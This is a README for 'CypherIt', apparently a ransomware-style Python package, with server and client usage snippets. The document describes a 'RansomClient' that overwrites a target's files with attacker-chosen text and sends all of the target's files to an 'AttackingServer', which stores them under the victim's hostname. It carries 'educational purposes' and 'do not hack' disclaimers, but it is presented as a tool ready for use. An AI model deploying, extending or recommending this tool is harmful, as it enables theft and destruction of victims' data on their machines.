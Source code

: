 CypherIt
========

CypherIt is an intelligent tool which renames all the files to a txt file in a binder.You can write what ever you want.

All the files of the target will be saved in your directory and you can do what ever you want. The name of the directory is the targets hostname

Inspired by:
==========
B.I.GG. He had this wonderful idea. BIG thanks to him

HOW DOES CYPHERIT WORK
======================

If you are familiar to my style of packages. You already know how simple it is

First of all create a server:

Server
------

````python
import CypherIt as ci

ip, port = "127.0.0.1", 1234

server = ci.AttackingServer(ip, port)
server.start()
````

Client
------

````python
import CypherIt as ci

ip, port, path, text = "127.0.0.1", 1234, r"C:\\test", "ALI THE MASTER"
# You have to specify the path because this was just build for educational purposes. So please do not use it for bad thinks

data = ci.RansomClient(ip, port, path, text)
data.start()
````

You always have to run the server first and then the client.

The hostname of the target will be sent to your server

A Directory with the hostname of the target will be created.

All the data of target will be stored in that directory

Additional
=========
* PLEASE DO NOT HACK SOMEONE FOREIGN
* If you see "Connection has been established" at the server than you have to wait a bit for the data to arrive